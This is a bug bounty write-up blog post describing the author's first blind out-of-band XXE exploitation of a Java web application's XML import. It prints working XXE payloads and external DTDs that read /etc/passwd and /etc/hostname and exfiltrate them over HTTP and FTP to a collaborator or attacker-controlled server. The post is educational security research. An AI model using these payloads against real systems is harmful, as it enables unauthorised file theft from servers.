 ```yaml
---
title: "My first OOB XXE exploitation"
date: 2021-04-30T12:00:00+01:00
hero: xxe_banner.png
description: My First OOB XXE Exploitation
menu:
  sidebar:
    name: My first OOB XXE exploitation
    identifier: My first OOB XXE exploitation
    weight: 2
---
```


Recently on a BugBounty program I came across my first XXE, blind what's more, as I found this case interesting I wanted to share it here.

## Recon
The recognition phase is quite basic, the scope is composed of a single URL with 2 distinct backends (administrators and users). For each of these backends the users' view is limited according to the rights they have.
* https://domain.tld/admin => URL for admin backend
* https://domain.tld/users => URL for users backend

I started to navigate in the application and all the tabs to understand how it works, although the scope is reduced the application is not very intuitive which makes its understanding a bit complicated.

After a few vulnerabilities found, the application seems rather robust, no "easy vulnerability", however, my eye is focused on a parameter of the admin side configuration page, a parameter named "tag configuration for XML file import". Hum interesting ... I quickly searched or imported an XML file, this import is not on the admin side but on the user side.

## Never trust ~~user input~~ application message
Luckily, the import page also allows you to download a template that will be valid for the application. So I downloaded this template and added a payload to display the content of */etc/passwd* but ... error message : "Invalid XML file (possible causes could be the use of DTDs or external entities for example)".

Hum... yet the response time of the server intrigued me. Rather than directly pointing me to an error, there was a loading time. Well... let's try something else.

Rather than trying to display the content of a file, I tried to see the use of ENTITIY is possible by forcing the server to make a request to my burp collaborator by including the following payload directly in the XML file :

```xml
<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://{BURP_COLLABORATOR_URL}/"> %ext;]>
```

I upload and hop ... after a few seconds, an HTTP request to my burp collaborator. So despite the error message, the file is well parsed and it is possible to use ENTITIES

{{< img src="XXE_OOB_Burp_Collaborator_Client.png" align="center" title="XXE OOB Burp Collaborator hit">}}

## Exploitation

All right, cool, let's try something else. I tried to extract the content from /etc/passwd and send it to my burp collaborator (blind XXE to exfiltrate data out-of-band) :
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "http://{BURP_COLLABORATOR_URL}/?%xxe;">]>
<foo>&callhome;</foo>
```

But... nothing. Okay, so then I tested it with an external dtd (In my case, I used an external server (VPS) with a python web server (`python3 -m http.server 80`) to deliver the payload and retrieve the content :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/pasword">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

I save, I up the server, I send back the malicious XML file, the server comes to get my DTD and sends me back but without the content of the file */etc/passwd* ... what ????

I do not despair and I tried with a dtd of test to see if I recover well the desired value, this dtd is thus just used to validate that I recover well the parameter "toto" : 

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff "toto">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

Let's start again, I save, I up the server, I send back the XML file, the server retrieves the DTD and I have the return with the value *toto* in the variable *?data=*.

After some research I saw that it was sometimes not possible to extract the contents of a file that includes some characters or line breaks (which is the case of */etc/passwd*).

In PHP it would have been possible to use a dtd like this:
```xml
<!ENTITY % stuff SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/p?data=%stuff;'>">
```

To encode the whole thing in base64, the return of the complete file would have been done, you would have just had to decode it to get the whole file. Unfortunately the backend here is Java and I couldn't find an alternative.

So before digging I tried another file, */etc/hostname* :  
*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://{MY_SERVER_IP}/?data=%stuff;'>">
```

Once again, I restart the web server, I send the XML, the server comes looking for my DTD and boom! the content of /etc/hostname is added as a parameter to the *?data=* variable.

This could have been enough as PoC but I kept on digging. Don't settle for the simplest, try to demonstrate the impact of your vulnerabilities !

## Digging

After some research I saw that it is possible to use the FTP protocol, which seems to be less troublesome than the *file://* wrapper for data extraction like this :

*payload in the uploaded XML file :*
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://{MY_SERVER_IP}/x.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

*external dtd named x.dtd :*
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://{MY_SERVER_IP}/%stuff;'>">
```

For the FTP server, I used [xxeserv](https://github.com/staaldraad/xxeserv) which is specially designed for data extraction via FTP with a XXE OOB.

Here we go again. restart the web server, I send the XML, the server comes looking for my DTD and boom! Oh no ... only a partial content of /etc/passwd is displayed :

{{< img src="XXE_OOB_Etc_Passwd.png" align="center" title="XXE OOB /etc/passwd">}}

After some research this is related to the version of Java used and unfortunately I have not found a solution to this problem.

## Conclusion

So I found other leaks that I could extract and made my report.
Unfortunately... duplicate ¯\_(ツ)_/¯

The labs etc... are very good for training but we are often far from reality, despite having done a lot of labs dealing with the twentieth century I still spent time to successfully exploit it and for the blow despite this duplicate, this vulnerability has taught me a lot, what better for a first XXE (in bugbounty) than a XXE OOB blind especially since it was even more formative by showing that it is necessary not to stop at the first inconclusive attempt.
